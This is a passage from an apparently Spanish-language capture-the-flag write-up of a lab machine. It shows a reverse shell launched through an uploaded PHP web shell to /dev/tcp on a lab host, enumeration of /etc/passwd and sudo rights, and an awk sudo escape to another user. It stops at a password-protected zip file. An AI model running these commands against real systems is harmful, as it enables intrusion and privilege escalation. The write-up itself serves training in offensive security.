 ```bash
# Reverse shell o acceso inicial
http://panel.wallet.dl/images/uploads/logos/1752000676-hacked.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
pylon:x:1000:1000:pylon,,,:/home/pylon:/bin/bash
pinguino:x:1001:1001:pinguino,,,:/home/pinguino:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Ahora sabiendo los usuarios del sistema, Procedemos a listar los permisos de este usuario:
```bash
sudo -l

User www-data may run the following commands on d11a25fcd716:
    (pylon) NOPASSWD: /usr/bin/awk
```

Procedemos a explotar el privilegio para ganar acceso como el usuario **pylon**
```bash
sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

###### Usuario `[ Pylon ]`:
Listando los archivos para este usuario tenemos un comprimido:
```bash
ls -la

-rw-r--r-- 1 pylon pylon  235 Jul 12  2024 secretitotraviesito.zip
```

Descomprimimos el archivo:
```bash
unzip secretitotraviesito.zip 
Archive:  secretitotraviesito.zip
```

Pero no podemos obtener ya que necesitamos una contrasena:
```bash
[secretitotraviesito.zip] notitachingona.txt password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: notitachingona.txt      incorrect password
```
